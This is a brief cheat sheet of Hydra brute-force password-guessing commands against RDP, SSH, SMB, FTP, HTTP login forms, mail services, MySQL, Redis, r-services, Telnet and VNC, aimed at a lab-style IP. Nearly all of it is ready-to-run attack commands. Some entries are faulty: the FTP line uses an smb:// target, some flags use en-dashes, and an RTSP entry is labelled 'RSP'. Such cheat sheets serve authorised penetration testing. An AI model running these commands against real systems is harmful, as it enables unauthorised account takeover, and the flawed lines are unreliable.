 # Hydra

{% embed url="https://haxez.org/wp-content/uploads/2022/06/HaXeZ_Hydra_Cheat_Sheet-1.pdf" %}

### GUI

```
xhydra
```

### RDP

```
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```

### SSH

```
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

### SMB

```
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

### FTP

```
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth

```
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```



```
HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
MySQL
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
Redis
hydra –P password.txt redis://10.0.2.5 -V
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V
Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V
RSH
hydra -L username.txt rsh://10.0.2.5 -V
RSP
hydra -l root -P passwords.txt <IP> rtsp
SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL
Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet
VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```

